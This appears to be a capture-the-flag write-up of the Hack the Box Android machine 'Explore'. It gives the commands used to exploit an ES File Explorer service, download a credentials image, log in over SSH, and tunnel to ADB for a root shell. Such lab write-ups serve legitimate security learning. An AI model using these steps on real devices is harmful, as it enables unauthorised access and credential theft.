 ```yaml
---
title: Explore - Hack the Box Write-Up
published: true
image: /media/explore/explore.png
---
```

**Difficulty**: Easy. **OS**: Android.

Explore is a recently retired machine from Hack the Box. Intrusion was quite simple but privilege escalation has some interesting things for keep in the arsenal.

Let's go.

### Intrusion

We start as always with recognition and enumeration phase with nmap. The victim's IP address is 10.10.10.247.

```
nmap -p- --min-rate=5000 -Pn -v -oN allPorts 10.10.10.247
```
![](./media/explore/recon.png)
Ports 2222, 42135, 46103, 59777 were found open. Let's check what's going on in these ports.

```
sudo nmap -p2222,42135,46103,59777 -sC -sV 10.10.10.247 -oN targeted
```
![](./media/explore/enum1.png)
![](./media/explore/enum2.png)

On port 42135 is running an ES File Explorer server which is a file manager for Android devices. A exploit for this service was found on exploit-db. This exploit is written in Python.

![](./media/explore/exploit.png)

This exploit tramitates http requests to the ES File Explorer server to list or download files. The usage of the exploit is:

```
python3 50070.py <command> <IP-address> [file to download]
```

Doing some exploration in the files of the device I found some interesting thing on pictures folder:

```
python3 50070.py listPics 10.10.10.247
```
![](./media/explore/listpics.png)

I've downloaded this picture to my local machine, it has some credentials on it.
```
python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg
```
![](./media/explore/credentials.png)

These credentials were useful to login via SSH to the victim's machine.

![](./media/explore/ssh.png)

Ok, intrusion done, we see user's flag.

![](./media/explore/user-flag.png)


### Privilege Escalation

Once inside the machine a daemon was found in listen on port 5555 executed by "shell" user. This port was found filtered in the nmap scanning, so this daemon must be on listen on localhost. The shell UID is reserved for development and testing apps.
```
netstat -ape
```

![](./media/explore/nepstat.png)

Doing a little research in duckduckgo I found that port 5555 is usually related to Android Debug Bridge (ADB), a service that allows connections to Android devices to install packages and evaluate changes ([https://source.android.com/setup/build/adb](https://source.android.com/setup/build/adb)). 

In fact, the binary of ADB (adbd) is running by "shell" user.
```
ps -A | grep "adbd"
```
![](./media/explore/ps.png)

To gain access to this service I've done 2 things.

*  Install adb client on my local machine.

```
sudo apt-get install adb
```

*  Tunnelize the connection via SSH. By doing this the port 5555 of the Android device will be forwarded to the port 5555 of my local machine.

```
ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555
```

Once the connection via SSH was done, some configuration to adb client was needed (This configuration was done in my local machine). First, the port of connection was configured to port 5555.

```
adb tcpip 5555
```

Then the connection was established to ADB service.

```
adb connect 127.0.0.1:5555
```

ADB client allows to restart the adbd daemon with root permissions.

```
adb -s 127.0.0.1:5555 root
```

At this point the daemon is running with root privileges. This was checked on the SSH session.

```
netstat -ape
```
![](./media/explore/daemon-root.png)

At this point a shell with root privileges was obtained with adb client (On the local machine).

```
adb -s 127.0.0.1:5555 shell
```
![](./media/explore/rooted.png)

Now we see the root flag.

![](./media/explore/root-flag.png)

Machine owned!

### Conclusion

Although the machine was quite easy, I've learned some things that will keep in the arsenal when I have to deal again with a Android device, specially the privilege escalation stage, Android directories and dealing with processes and connections.
